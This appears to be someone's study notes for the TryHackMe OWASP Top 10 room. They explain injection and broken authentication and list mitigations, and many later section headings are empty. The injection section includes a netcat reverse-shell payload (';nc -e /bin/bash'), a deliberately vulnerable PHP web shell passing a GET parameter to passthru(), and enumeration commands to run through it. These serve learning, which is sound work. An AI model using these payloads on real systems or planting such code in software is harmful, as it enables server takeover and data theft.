

#OWASP Top 10

https://tryhackme.com/room/owasptop10

https://h0j3n.medium.com/tryhackme-owasp-top-10-5d168ff0563b

##Injection

Some common examples include:
- SQL Injection: This occurs when user controlled input is passed to SQL queries. As a result, an attacker can pass in SQL queries to manipulate the outcome of such queries. 
- Command Injection: This occurs when user input is passed to system commands. As a result, an attacker is able to execute arbitrary system commands on application servers.

If an attacker is able to successfully pass input that is interpreted correctly, they would be able to do the following:
- Access, Modify and Delete information in a database when this input is passed into database queries. This would mean that an attacker can steal sensitive information such as personal details and credentials.
- Execute Arbitrary system commands on a server that would allow an attacker to gain access to users’ systems. This would enable them to steal sensitive data and carry out more attacks against infrastructure linked to the server on which the command is executed.

The main defence for preventing injection attacks is ensuring that user controlled input is not interpreted as queries or commands. There are different ways of doing this:
- Using an allow list: when input is sent to the server, this input is compared to a list of safe input or characters. If the input is marked as safe, then it is processed. Otherwise, it is rejected and the application throws an error.
- Stripping input: If the input contains dangerous characters, these characters are removed before they are processed.

###OS Command Injection

The worst thing they could do would be to spawn a reverse shell to become the user that the web server is running as.  A simple ;nc -e /bin/bash is all that's needed and they own your server; some variants of netcat don't support the -e option. You can use a list of these reverse shells as an alternative. 

    ;nc -e /bin/bash

###Practical

EvilShell.php Example:

    <?php
        
        if (isset($GET["commandString"])) {
            $command_string = $_GET["commandString"];
            
            try {
                passthru($command_string);
            } catch (Error $error) {
                echo "
<b>$error</b>
";
            }
        }
    
    ?>

Ways to Detect Active Command Injection

We know that active command injection occurs when you can see the response from the system call.  In the above code, the function passthru() is actually what's doing all of the work here.  It's passing the response directly to the document so you can see the fruits of your labor right there.  Since we know that, we can go over some useful commands to try to enumerate the machine a bit further.  The function call here to passthru() may not always be what's happening behind the scenes, but I felt it was the easiest and least complicated way to demonstrate the vulnerability.  

Commands to try

Linux

    whoami
    id
    ifconfig/ip addr
    uname -a
    ps -ef
    cat /etc/os-release

Windows

    whoami
    ver
    ipconfig
    tasklist
    netstat -an

##Broken Authentication

If an attacker is able to find flaws in an authentication mechanism, they would then successfully gain access to other users’ accounts. This would allow the attacker to access sensitive data (depending on the purpose of the application). Some common flaws in authentication mechanisms include:

- Brute force attacks: If a web application uses usernames and passwords, an attacker is able to launch brute force attacks that allow them to guess the username and passwords using multiple authentication attempts. 
- Use of weak credentials: web applications should set strong password policies. If applications allow users to set passwords such as ‘password1’ or common passwords, then an attacker is able to easily guess them and access user accounts. They can do this without brute forcing and without multiple attempts.
- Weak Session Cookies: Session cookies are how the server keeps track of users. If session cookies contain predictable values, an attacker can set their own session cookies and access users’ accounts. 

There can be various mitigation for broken authentication mechanisms depending on the exact flaw:

- To avoid password guessing attacks, ensure the application enforces a strong password policy. 
- To avoid brute force attacks, ensure that the application enforces an automatic lockout after a certain number of attempts. This would prevent an attacker from launching more brute force attacks.
- Implement Multi Factor Authentication - If a user has multiple methods of authentication, for example, using username and passwords and receiving a code on their mobile device, then it would be difficult for an attacker to get access to both credentials to get access to their account.

###Practical

##Sensitive Data Exposure

###Introduction

###Practical

##XML External Entity

###eXtrensible Markup Language

###DTD

###XXE Payload

###Exploiting

##Broken Access Control

###Practical

##Security Misconfiguration

##Cross-Site Scripting

##Insecure Deserialization

###Objects

###Deserialization

###Cookies Practical

###Code Execution

##Components with known Vulnerbilities

###Intro

###Expoit

###Lab

##Insufficient Logging and Monitoring